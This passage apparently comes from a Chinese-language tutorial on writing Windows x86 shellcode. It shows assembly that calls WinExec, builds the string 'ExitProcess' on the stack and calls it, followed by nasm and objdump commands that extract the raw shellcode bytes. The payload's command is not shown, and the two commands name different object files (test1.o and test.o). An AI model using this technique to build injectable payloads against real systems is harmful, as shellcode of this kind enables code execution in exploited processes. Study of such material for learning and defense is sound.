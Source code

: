 ```assembly
push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
push ebx              ; lpcmdLine - push string address stack # 1st argument
call eax              ; Call the WinExec Function

; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
 xor ecx, ecx          ; clear eax register
 mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
 shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
 push ecx                ;  sse : 00737365
 push 0x636F7250         ; corP : 636F7250
 push 0x74697845         ; tixE : 74697845
 mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
 call findFunctionAddr   ; After Return EAX will = &ExitProcess

; Call ExitProcess(ExitCode)
 xor edx, edx
 push edx                ; ExitCode = 0
 call eax                ; ExitProcess(ExitCode)
```

* 将该反汇编文件通过`nasm`工具进行编译并用`objdump`工具变为可执行代码

```shell
nasm -f win32 test.asm -o test1.o
for i in $(objdump -D test.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```